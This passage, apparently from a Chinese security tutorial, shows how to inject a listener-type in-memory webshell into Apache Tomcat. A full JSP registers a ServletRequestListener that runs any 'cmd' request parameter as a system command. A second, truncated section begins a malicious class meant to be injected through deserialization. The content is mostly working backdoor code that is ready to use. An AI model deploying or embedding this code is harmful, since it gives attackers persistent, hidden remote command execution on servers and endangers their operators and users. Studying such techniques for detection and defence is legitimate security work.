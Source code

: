 ### JSP 写入 listener 内存马
jsp 实现如下
```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
 
<%!
    public class Shell_Listener implements ServletRequestListener {
 
        public void requestInitialized(ServletRequestEvent sre) {
            HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
           String cmd = request.getParameter("cmd");
           if (cmd != null) {
               try {
                   Runtime.getRuntime().exec(cmd);
               } catch (IOException e) {
                   e.printStackTrace();
               } catch (NullPointerException n) {
                   n.printStackTrace();
               }
            }
        }
 
        public void requestDestroyed(ServletRequestEvent sre) {
        }
    }
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext context = (StandardContext) req.getContext();
 
    Shell_Listener shell_Listener = new Shell_Listener();
    context.addApplicationEventListener(shell_Listener);
%>
```

### 反序列化写入
恶意类如下：
```java
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;

/**
 * 使用 JMX Bean 注入 Tomcat Listener 型内存马
 */
public class MLTomcatFromThread implements ServletRequestListener {

    private final String cmdParamName = "cmd";
```